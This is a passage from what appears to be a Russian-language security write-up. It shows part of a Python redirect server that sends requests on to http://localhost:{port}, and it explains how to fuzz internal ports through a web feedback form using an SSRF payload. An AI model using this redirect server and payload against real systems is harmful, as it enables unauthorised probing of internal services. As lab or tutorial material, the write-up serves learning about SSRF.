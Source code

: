 ```python
                        method = parts[0]
                        path = parts[1]
                    else:
                        method = ''
                        path = ''
                else:
                    method = ''
                    path = ''

                port_value = ''
                response_body = ''

                if method.upper() == 'GET':
                    parsed_url = urlparse(path)
                    params = parse_qs(parsed_url.query)
                    port_value = params.get('port', [''])[0]

                response_header = (
                    "HTTP/1.1 302 FOUND\r\n"
                    "Content-Type: text/plain\r\n"
                    f"Location: http://localhost:{port_value}\r\n"
                    f"Content-Length: {len(response_body)}\r\n"
                    "Connection: close\r\n"
                    "\r\n"
                )
                
                print(f'Connectd by {addr} used port: {port_value}')

                conn.sendall(response_header.encode('utf-8') + response_body.encode('utf-8'))
    except KeyboardInterrupt:
        print("\nServer is shutting down...")
        s.close()
        exit(1)

```

![](img/img17.png)

Запускаем сервер и начинаем фаззить порт на котором забинден процесс. То есть, в форме обратной связи мы указываем пейлод, который состоит из ```http://{ replay_server }/?port=FUZZ```, где ```FUZZ``` будет перебор портов (можно указать range, либо использовать словать с самими популярными портами):
